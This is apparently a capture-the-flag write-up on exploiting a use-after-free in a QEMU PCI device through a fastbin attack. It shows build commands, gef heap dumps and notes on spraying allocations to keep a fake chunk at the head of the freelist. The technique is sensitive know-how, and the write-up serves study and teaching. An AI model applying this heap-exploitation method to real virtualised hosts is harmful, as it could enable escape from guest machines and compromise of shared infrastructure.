## Compile pcimem
```
musl-gcc  -static pcimem.c -o pcimem
```

## repacke fs
```
find . | cpio -H newc -o > ../initramfs-busybox-x86_64.cpio
gzip initramfs-busybox-x86_64.cpio
```
We can use fastbin attack to exploit UAF.

When you debug the program, you'll find it doesn't use the main_arena.
```
gef➤  p (struct malloc_state)*0x7eff88000020
$5 = {
  mutex = 0x0, 
  flags = 0x2, 
  fastbinsY = {0x7eff88441cd0, 0x7eff881fa940, 0x7eff881fa9c0, 0x7eff88441d40, 0x0, 0x7eff88204000, 0x7eff8828e140, 0x0, 0x0, 0x0}, 
  top = 0x7eff8870edf0, 
  last_remainder = 0x7eff881ff7a0, 
  bins = {0x7eff881ff7a0, 0x7eff881ff7a0...
  ......

gef➤  x/10gx 0x1317940
0x1317940:	0x0000000000000000	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007eff881ff480	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
```
We passed the size 100\*8(0x320), making the chunk cut from the unsorted bin at 0x7eff881ff480. So we can satisfy the size check of fastbin malloc. If using the main_arena, I think it's hard to solve this.

After we free the memory, we know the chunk will be added at the first place in the freelist(another debug session). 
```
gef➤  x/16gx 0x1317940
0x1317940:	0x0000000000000000	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f959c24b7d0	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
gef➤  heapinfo
(0x20)     fastbin[0]: 0x7f959c6c24d0 --> 0x7f959c6c2410 --> 0x0
(0x30)     fastbin[1]: 0x7f959c1ef080 --> 0x7f959c1eefc0 --> 0x7f959c1eef00 --> 0x7f959c1eee40 --> 0x7f959c32ecc0 --> 0x7f959c32ec00 --> 0x7f959c6a8ac0 --> 0x7f959c6a8a00 --> 0x7f959c6111c0 --> 0x7f959c1ff700 --> 0x0
(0x40)     fastbin[2]: 0x7f959c1ef100 --> 0x7f959c1ef040 --> 0x7f959c1eef80 --> 0x7f959c1eeec0 --> 0x7f959c32ed40 --> 0x7f959c32ec80 --> 0x7f959c6a8b40 --> 0x7f959c6a8a80 --> 0x7f959c1ff780 --> 0x0
(0x50)     fastbin[3]: 0x7f959c201ca0 --> 0x7f959c201be0 --> 0x7f959c201b20 --> 0x7f959c6c2540 --> 0x7f959c6c2480 --> 0x7f959c611120 --> 0x7f959c611060 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7f959c24b7c0 --> 0x7f959c320f00 --> ......
```
When you allocate another chunk:
```
gef➤  x/16gx 0x1317940
0x1317940:	0x00007f959c22e510	0x0000000000000000
0x1317950:	0x0000000000000000	0x0000000000000000
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f959c24b7d0	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
gef➤  heapinfo
(0x20)     fastbin[0]: 0x7f959c6c24d0 --> 0x7f959c6c2410 --> 0x0
(0x30)     fastbin[1]: 0x7f959c1ef080 --> 0x7f959c1eefc0 --> 0x7f959c1eef00 --> 0x7f959c1eee40 --> 0x7f959c32ecc0 --> 0x7f959c32ec00 --> 0x7f959c6a8ac0 --> 0x7f959c6a8a00 --> 0x7f959c6111c0 --> 0x7f959c1ff700 --> 0x0
(0x40)     fastbin[2]: 0x7f959c1ef100 --> 0x7f959c1ef040 --> 0x7f959c1eef80 --> 0x7f959c1eeec0 --> 0x7f959c32ed40 --> 0x7f959c32ec80 --> 0x7f959c6a8b40 --> 0x7f959c6a8a80 --> 0x7f959c1ff780 --> 0x0
(0x50)     fastbin[3]: 0x7f959c201ca0 --> 0x7f959c201be0 --> 0x7f959c201b20 --> 0x7f959c6c2540 --> 0x7f959c6c2480 --> 0x7f959c611120 --> 0x7f959c611060 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x7f959c22e440 --> 0x7f959c347940 --> 0x7f959c347880 --> 0x7f959c3477c0 --> 0x7f959c347700 --> 0x7f959c347640 --> 0x7f959c1f4140 --> 0x7f959c1f4080 --> 0x7f959c1f3fc0 --> 0x7f959c1f3f00 --> 0x7f959c1f3e40 --> 0x7f959c5f4540 --> 0x7f959c5f4480 --> 0x7f959c5f43c0 --> 0x7f959c5f4300 --> 0x7f959c5f4240 --> 0x7f959c1d1b40 --> 0x7f959c1d1a80 --> 0x7f959c1d19c0 --> 0x7f959c1d1900 --> 0x7f959c1d1840 --> 0x7f959c321140 --> 0x7f959c321080 --> 0x7f959c320fc0 --> 0x7f959c24b7c0 --> 0x131796d (size error (0x78)) --> 0x0
```
See? We can't control it. After I see the wp from [here](https://uaf.io/exploitation/2018/05/13/DefconQuals-2018-EC3.html), I get the point: Qemu will often allocate our fake chunk somewhere before us if we take too much time or it will free a bunch of other same sized buffers which will move our fake pointer from the top of the free list. You must overcome this by allocating multi chunks continuously and quickly, and if you debug the program, you can't get the fake pointer I guess.

```
gef➤  x/16gx 0x1317940
0x1317940:	0x00007f0ec83bb050	0x00007f0ec8198c90
0x1317950:	0x000000000131797d	0x00007f0ec8328a80
0x1317960:	0x0000000000000000	0x0000000000000000
0x1317970:	0x00007f0ec8198c90	0x0000000000000000
0x1317980:	0x0000000000000000	0x0000000000000000
0x1317990:	0x0000000000000000	0x0000000000000000
0x13179a0:	0x0000000000000000	0x0000000000000000
0x13179b0:	0x0000000000000000	0x0000000000000000
```

The tech is interesting, just like heap spray a little. And it's more practical in real exploit.